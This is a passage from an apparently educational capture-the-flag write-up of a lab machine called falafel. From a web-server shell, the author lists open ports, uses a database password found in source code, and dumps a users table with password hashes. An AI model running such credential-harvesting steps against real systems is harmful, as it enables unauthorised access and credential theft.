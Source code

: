 It reveals DB credential for `moshe` : `falafelIsReallyTasty`

```bash
www-data@falafel:/var/www/html$ ss -lntp
ss -lntp
State    Recv-Q    Send-Q        Local Address:Port        Peer Address:Port    
LISTEN   0         128           127.0.0.53%lo:53               0.0.0.0:*       
LISTEN   0         128                 0.0.0.0:22               0.0.0.0:*       
LISTEN   0         80                127.0.0.1:3306             0.0.0.0:*       
LISTEN   0         128                       *:80                     *:*       
LISTEN   0         128                    [::]:22                  [::]:*   
```

### Mysql Database

The mysql service is running on the system.
With the found credentials, I was able to enumerate database, but couldn't find anything new.

```bash
www-data@falafel:/var/www/html$ mysql -u moshe -pfalafelIsReallyTasty -e 'show databases;'
<u moshe -pfalafelIsReallyTasty -e 'show databases;'
mysql: [Warning] Using a password on the command line interface can be insecure.
+--------------------+
| Database           |
+--------------------+
| information_schema |
| falafel            |
+--------------------+
www-data@falafel:/var/www/html$ mysql -u moshe -pfalafelIsReallyTasty -e 'use falafel;show tables;'
<pfalafelIsReallyTasty -e 'use falafel;show tables;'
mysql: [Warning] Using a password on the command line interface can be insecure.
+-------------------+
| Tables_in_falafel |
+-------------------+
| users             |
+-------------------+
www-data@falafel:/var/www/html$ mysql -u moshe -pfalafelIsReallyTasty -e 'use falafel;select * from users;'
<IsReallyTasty -e 'use falafel;select * from users;'
mysql: [Warning] Using a password on the command line interface can be insecure.
+----+----------+----------------------------------+--------+
| ID | username | password                         | role   |
+----+----------+----------------------------------+--------+
|  1 | admin    | 0e462096931906507119562988736854 | admin  |
|  2 | chris    | d4ee02a22fc872e36d9e3751ba72ddc8 | normal |
+----+----------+----------------------------------+--------+
```

### Switch user to `moshe`

There are two users exist.

```bash
www-data@falafel:/home$ ls
ls
moshe  yossi
```

